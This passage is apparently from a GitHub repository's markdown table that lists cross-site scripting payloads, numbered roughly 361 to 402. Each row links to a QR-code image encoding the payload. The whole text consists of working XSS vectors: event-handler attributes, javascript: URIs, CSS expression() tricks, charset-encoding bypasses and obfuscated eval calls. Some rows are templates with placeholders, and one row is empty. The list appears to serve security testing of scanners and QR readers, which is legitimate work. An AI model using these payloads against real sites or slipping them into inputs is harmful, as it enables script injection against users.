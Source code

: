 | `<title onpropertychange=javascript:alert(1)></title><title title=>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/361.png) |
| ``<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)>`</a>">`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/362.png) |
| `<!--[if]><script>javascript:alert(1)</script -->` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/363.png) |
| ```` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/364.png) |
| `<a style="-o-link:'javascript:javascript:alert(1)';-o-link-source:current">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/367.png) |
| `<link rel=stylesheet href=data:,*%7bx:expression(javascript:alert(1))%7d` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/368.png) |
| `<style>@import "data:,*%7bx:expression(javascript:alert(1))%7D";</style>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/369.png) |
| `<div style="font-family:'foo&#10;;color:red;';">XXX` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/371.png) |
| `<div style="font-family:foo}color=red;">XXX` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/372.png) |
| `<// style=x:expression\28javascript:alert(1)\29>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/373.png) |
| `<style>*{x:ｅｘｐｒｅｓｓｉｏｎ(javascript:alert(1))}</style>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/374.png) |
| `<div style=content:url(%(svg)s)></div>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/375.png) |
| `<div style="list-style:url(http://foo.f)\20url(javascript:javascript:alert(1));">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/376.png) |
| `<div style="background:url(/f#&#127;oo/;color:red/*/foo.jpg);">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/377.png) |
| `<div style="font-family:foo{bar;background:url(http://foo.f/oo};color:red/*/foo.jpg);">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/378.png) |
| `<div id="x">XXX</div> <style>  #x{font-family:foo[bar;color:green;}  #y];color:red;{}  </style>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/379.png) |
| `<x style="background:url('x&#1;;color:red;/*')">XXX</x>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/380.png) |
| `<script>({set/**/$($){_/**/setter=$,_=javascript:alert(1)}}).$=eval</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/381.png) |
| `<script>({0:#0=eval/#0#/#0#(javascript:alert(1))})</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/382.png) |
| `<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('javascript:alert(1)')()</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/383.png) |
| `<meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/384.png) |
| `<meta charset="mac-farsi">¼script¾javascript:alert(1)¼/script¾` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/385.png) |
| ``X<x style=`behavior:url(#default#time2)`onbegin=`javascript:alert(1)`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/386.png) |
| `<a style="behavior:url(#default#AnchorClick);" folder="javascript:javascript:alert(1)">XXX</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/387.png) |
| `<event-source src="%(event)s" onload="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/389.png) |
| `<script>%(payload)s</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/390.png) |
| `<script language='javascript' src='%(jscript)s'></script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/392.png) |
| `<IMG SRC="javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/394.png) |
| `<IMG SRC=javascript:javascript:alert(1)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/395.png) |
| ``<IMG SRC=`javascript:javascript:alert(1)`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/396.png) |
| `<SCRIPT SRC=%(jscript)s?<B>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/397.png) |
| `<FRAMESET><FRAME SRC="javascript:javascript:alert(1);"></FRAMESET>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/398.png) |
| `<BODY ONLOAD=javascript:alert(1)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/399.png) |
| `<BODY ONLOAD=javascript:javascript:alert(1)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/400.png) |
| `<IMG SRC="jav    ascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/401.png) |
| ``<BODY onload!#$%%&()*~+-_.,:;?@[/\|\]^`=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/402.png) |
